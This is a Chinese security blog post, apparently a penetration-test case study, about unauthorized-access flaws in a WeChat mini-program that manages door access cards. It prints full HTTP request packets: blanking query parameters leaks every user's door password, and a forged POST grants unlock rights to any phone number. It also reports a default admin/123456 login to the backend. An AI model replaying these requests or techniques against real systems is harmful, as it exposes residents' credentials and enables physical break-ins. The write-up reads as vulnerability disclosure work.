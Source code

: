 #  某微信小程序未授权漏洞挖掘（置空查询思路）   
 明暗安全   2024-07-13 10:04  
  
**01**  
  
**原创说明**  
  
  
本篇文章为苏木师傅实战案例分享  
  
  
**02**  
  
渗透记录  
  
  
微信小程序  
xxx  
，点击门卡  
-点击添加密码-截获数据包查看返回包可查看密码  
,可越权授权如何手机号开门权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCu6n7c8vzAVwIFqqPrIBANgPG0t4BcgZIlYkibQiaBSib97HpniaDiaDqpKA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCNWauAr0MVdR2jy4UIBJ9FPHztUkZQutrFJbF5jwFJHPtuh9hmxoRPg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**03**  
  
未授权一  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCiaVgLlicMibKys7zfH2ldU0aMwwGwQgIllhxS9QRf5S61sOQdtVg35xHQ/640?wx_fmt=png&from=appmsg "")  
  
  
删除  
userid和bind数值可查看全部用户密码  
  
数据包：  
```
GET/prod-api/nfc/device/list?userId=&isBind= HTTP/1.1
Host:XXX.XXX.cn
Xweb_xhr:1
Authorization:eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImUwMGY0YTY0LTNjZDctNDc1Zi1iN2NlLTc5ZDcwYWY3MjNjYyJ9.1LwhfaSNs34yL9mnACRLkviTL5NzbLCQwpv_jd0bjrsFcoFhMVsO7AD9C-K3jl83VA7RC5X_p53vCW4ZeWsqEQ
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type:application/json
Accept:*/*
Sec-Fetch-Site:cross-site
Sec-Fetch-Mode:cors
Sec-Fetch-Dest:empty
Referer:https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Connection:close
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNC8xl9kq9z7VyV9JR9pia7sbicpmvibUkV0sDQTTb5bcJaz1RX4rLH2bTQw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**04**  
  
未授权二  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCsgPXzGQ3oQf1bicJvuhzcnOMNLIDFgdU1gN8aXacm9LdxRX9KGIKtyQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCXQsFfx35XztibopRickCyfJqibHgpmvxJ2wHgcxY9j6wicFibv8Pic4PribwQ/640?wx_fmt=png&from=appmsg "")  
  
  
可查看自己的密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCVPCY3O9mgQxs2IsMHgUbWldyhrEsUStxBfLSJnQOnrIFUttpZbgS5g/640?wx_fmt=png&from=appmsg "")  
  
  
删除  
deviceid、ismin、status值后可查看所有用户密码  
  
数据包：  
```
GET/prod-api/fy/cardkey/list?deviceId=&isMain=&status= HTTP/1.1
Host:XXX.XXX.cn
Xweb_xhr:1
Authorization:eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImUwMGY0YTY0LTNjZDctNDc1Zi1iN2NlLTc5ZDcwYWY3MjNjYyJ9.1LwhfaSNs34yL9mnACRLkviTL5NzbLCQwpv_jd0bjrsFcoFhMVsO7AD9C-K3jl83VA7RC5X_p53vCW4ZeWsqEQ
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type:application/json
Accept:*/*
Sec-Fetch-Site:cross-site
Sec-Fetch-Mode:cors
Sec-Fetch-Dest:empty
Referer:https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Connection:close
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCTBsMoJGqzLmLwm2B8fZLQkdE7vKRhH7jZGf2mbcJDUn2gljl4cR48Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**05**  
  
未授权三  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCONRaya3G8lRmkY7AVjjOjPs4BjTIbMqsxZaQt5ialoZRbpj0z5jKoxA/640?wx_fmt=png&from=appmsg "")  
  
  
数据包：  
```
POST /prod-api/fy/cardkey HTTP/1.1
Host: xxx.xxx.cn
Content-Length: 131
Xweb_xhr: 1
Authorization: eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImJiMDIxZjZmLTZmY2UtNDRmOS04M2FlLTBkZmMxZDEyZTZlNiJ9.ndIZOlqG9vXCvb2EBc5efx14tz3VtED_uRrFrCS-FhyBNY4MQTdu08ZVU6QfrrACGmuH_eZbr_uRfWBsEVXT6g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type: application/json
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
{"deviceId":"758","passType":"4","password":"978949","endData":0,"phone":"18888888888","startTime":"2024-01-19 09:00","endTime":""}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCTH38lzFLxpiaUGHUKSrNW0dInI6q9jGJLialJvXB31qmt6z98dwPIOZg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCjmbHxwjSXkUlEz2ddKx8bfoarKnTMhkQgKR0rcWek1pfXNk4Mk90bg/640?wx_fmt=png&from=appmsg "")  
  
通过修改  
deviceId  
值可在任何账号中为指定手机授权开锁权限  
  
  
**06**  
  
弱口令  
  
  
**小程序看完了，看看web，运气不错弱口令进去了是若依系统，但可惜的是里面没有历史漏洞******  
  
Url:https://  
XXX.XXX  
.cn/  
  
账号：  
admin  
  
密码：  
123456  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCdjoSibduhuYFYlDjSN9kFUy3nCRI0xu98gSmDN9CLhARZYd2EWiaL2AQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCLJalg08QTuWRLAzibjTwQ6nsJyvgmFSsduyD2dIymVZm21laOBhmVNA/640?wx_fmt=png&from=appmsg "")  
  
**本篇文章为苏木师傅实战案例分享**  
  
